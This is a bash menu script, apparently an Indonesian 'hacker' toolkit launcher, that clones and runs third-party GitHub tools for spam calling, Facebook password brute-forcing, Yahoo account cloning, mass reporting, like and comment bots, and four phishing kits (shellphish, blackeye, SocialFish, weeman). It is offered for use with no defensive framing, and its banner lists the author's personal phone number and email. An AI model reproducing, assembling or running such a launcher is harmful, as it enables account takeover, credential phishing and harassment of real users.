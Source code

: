 # hosea
#usr/bin/bash clear bi='\033[34;1m' #biru i='\033[32;1m' #ijo pur='\033[35;1m' #purple cy='\033[36;1m' #cyan me='\033[31;1m' #merah pu='\033[37;1m' #putih ku='\033[33;1m' #kuning # Jangan Recode Ya gayn echo echo echo echo $i"["$bi"•"$i"]"$me"───────────────────────────────────────────"$i"["$bi"•"$i"]" echo $i" |"$cy"     INDONESIA HACKER TEGAL "$i"         |" echo $i" |"$me"─────────────────────────────────────────────"$i"|" echo $i" |"$pu" AUTHOR :"$ku"Muhamad Hamdan Sobirin  [FR13ND8]"$i"   |" echo $i" |"$pu" FACEBOOK :"$ku" MUHAMAD HAMDAN SOBIRIN"$i"               |" echo $i" |"$pu" THANKS TO :"$cy"~ [MR.P3RC1L] [MR.S∆MAx] [MR.B]"$i"  |" echo $i" |"$cy"            ~ [cyber] [%MR.S%] [HAMDAN]"$i" |" echo $i" |"$pu" Contack WhatsApp :"$ku" 0856-4221-5238"$i"            |" echo $i" |"$pu" Contack Gmail :"$ku" mochamadhamdhan@gmail.com"$i"|" echo $i"["$bi"•"$i"]"$me"───────────────────────────────────────────"$i"["$bi"•"$i"]" echo echo $i"────────────────────────────────    ─────" echo $i"|"$me" 1"$i" |"$cy" SPAM CALL Tanpa Batas    "$i"|"$i"    |"$cy" B"$i" |" echo $i"|"$me" 2"$i" |"$cy" BRUTEFORCE FB BR1G4D3    "$i"|"$i"    |"$cy" E"$i" |" echo $i"|"$me" 3"$i" |"$cy" Dark-FB Version5         "$i"|"$i"    |"$cy" N"$i" |" echo $i"|"$me" 4"$i" |"$cy" BRUTEFORCE FB MBF        "$i"|"$i"    |"$cy" G"$i" |" echo $i"|"$me" 5"$i" |"$cy" FACEBRUTE N1ght420       "$i"|"$i"    |"$cy" K"$i" |" echo $i"|"$me" 6"$i" |"$cy" BRUTEFORCE FB ( root )   "$i"|"$i"    |"$cy" E"$i" |" echo $i"────────────────────────────────"$i"    |"$cy" L"$i" |" echo $i"|"$me" 7"$i" |"$cy" YAHOO CLONING FACEBOOK   "$i"|"$i"    ─────" echo $i"|"$me" 8"$i" |"$cy" PROFILE GUARD FACEBOOK   "$i"|"$i"    |"$cy" F"$i" |" echo $i"|"$me" 9"$i" |"$cy" REPORT FACEBOOK WORK     "$i"|"$i"    |"$cy" A"$i" |" echo $i"|"$me"10"$i" |"$cy" AUTO REACTION FACEBOOK   "$i"|"$i"    |"$cy" C"$i" |" echo $i"|"$me"11"$i" |"$cy" INFORMATION FACEBOOK     "$i"|"$i"    |"$cy" E"$i" |" echo $i"|"$me"12"$i" |"$cy" BOT KOMEN FACEBOOK       "$i"|"$i"    |"$cy" B"$i" |" echo $i"|"$me"13"$i" |"$cy" AUTOLIKE FACEBOOK        "$i"|"$i"    |"$cy" O"$i" |" echo $i"────────────────────────────────"$i"    |"$cy" O"$i" |" echo $i"|"$me"14"$i" |"$cy" PHISING FACEBOOK 1       "$i"|"$i"    |"$cy" K"$i" |" echo $i"|"$me"15"$i" |"$cy" PHISING FACEBOOK 2       "$i"|"$i"    ─────" echo $i"|"$me"16"$i" |"$cy" PHISING FACEBOOK 3       "$i"|"$i"    |"$cy" K"$i" |" echo $i"|"$me"17"$i" |"$cy" PHISING FACEBOOK 4       "$i"|"$i"    |"$cy" E"$i" |" echo $i"────────────────────────────────"$i"    |"$cy" R"$i" |" echo $i"|"$me"18"$i" |"$cy" INSTALL BAHAN DULU COEG  "$i"|"$i"    |"$cy" E"$i" |" echo $i"|"$me"19"$i" |"$cy" KELUAR/EXIT PROGRAM      "$i"|"$i"    |"$cy" N"$i" |" echo $i"────────────────────────────────    ─────" echo echo $me"┌==="$bi"["$i"FR13ND8"$bi"]"$me"======"$bi"["$i""Pilih Nomornya""$bi"]" echo $me"¦" read -p"└──# " pil  if [ $pil = 1 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/Muhamadba/MBFz  cd MBFz   ls php SpamCall.php fi  if [ $pil = 2 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/Fb-Cracker-v.3 cd Fb-Cracker-v.3 python2 crack.py fi  if [ $pil = 3 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 pkg install python2 pkg install git git clone https://github.com/rezadkim/dark-fb cd dark-fb pip2 install reuests python2 dark.py fi  if [ $pil = 4 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/mbf cd mbf python2 MBF.py fi  if [ $pil = 5 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/N1ght420/FaceBrute cd FaceBrute python fb.py fi  if [ $pil = 6 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/thelinuxchoice/facebash.git cd facebash bash facebash.sh fi  if [ $pil = 7 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/wahyuandhika/YahooCloning cd YahooCloning ls pip2 install requests mechanize pip2 install requirements python2 cloning.py  fi  if [ $pil = 8 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/ProfileGuardFb cd ProfileGuardFb php guard.php fi  if [ $pil = 9 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/IlayTamvan/Report cd Report unzip Report.zip python2 Report.py fi  if [ $pil = 10 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/AMVengeance/FB-React cd FB-React ./start fi  if [ $pil = 11 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/InfoFB cd InfoFB pip2 install -r requirements.txt python2 info.py fi  if [ $pil = 12 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 pip2 install mechanize git clone https://github.com/Senitopeng/Botkomena.git cd Botkomena python2 botkomena.py fi  if [ $pil = 13 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/autolike cd autolike php autolike.php fi  if [ $pil = 14 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/thelinuxchoice/shellphish.git cd shellphish bash shellphish.sh fi  if [ $pil = 15 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/thelinuxchoice/blackeye.git cd blackeye bash blackeye.sh fi  if [ $pil = 16 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/UndeadSec/SocialFish.git cd SocialFish chmod +x * pip2 install -r requirements.txt python2 SocialFish.py fi  if [ $pil = 17 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 https://github.com/evait-security/weeman.git chmod +x * python2 weeman.py fi  if [ $pil = 18 ] then clear apt update &amp;&amp; apt upgrade apt install python2 pip2 install urllib3 chardet certifi idna requests pkg install git pip2 install mechanize pkg install curl pkg install ruby pkg install gem gem install lolcat pkg install git pkg install php pkg install ruby cowsay toilet figlet pkg install neofetch pkg install nano figlet -f slant " S U K S E S "|lolcat fi  if [ $pil = 19 ] then clear figlet -f slant "E X I T"|lolcat sleep 2 echo $cy"Terima Kasih Sudah Pakai Tool Saya" sleep 2 echo $i"Bila Ada Kesalahan Kamu Bisa Nanya Kepada Saya" sleep 2 echo $ku"WhatsApp :"$i" 0856-4221-5238" echo $ku"Facebook :"$i" MUHAMAD HAMDAN SOBIRIN" sleep 2 echo $pur">> Thanks Yang Sudah Support Saya &lt;&lt;" exit fi
